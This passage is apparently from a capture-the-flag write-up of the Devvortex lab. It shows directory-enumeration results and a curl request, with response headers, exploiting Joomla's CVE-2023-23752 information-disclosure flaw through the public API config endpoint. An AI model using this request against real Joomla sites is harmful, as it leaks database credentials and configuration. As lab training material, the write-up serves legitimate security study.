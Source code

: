 ```bash
/home                 (Status: 200) [Size: 23221]                                     
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/] 
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]  
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]  
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/] 
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/] 
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]       
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]     
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/] 
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]       
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]   
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]    
```



---

# Exploitation
## Code Execution - CVE-2023-23752
In **/administrator** directory i found the Joomla login page

![[JoomlaLogin.png]]

Now it’s time to find if any information disclouser vulnerability in joomla. Here I found One CVE (  [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce) ) shows that we can bypass this login page. Let’s follow the steps…..


```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
*   Trying 10.9.49.205:80...
* TCP_NODELAY set
* Connected to 10.9.49.205 (10.9.49.205) port 80 (#0)
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: 10.9.49.205
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 20 Mar 2023 15:14:05 GMT
< Server: Apache/2.4.41 (Ubuntu)
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Mon, 20 Mar 2023 15:14:05 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Content-Length: 1983
< Content-Type: application/vnd.api+json; charset=utf-8
<
```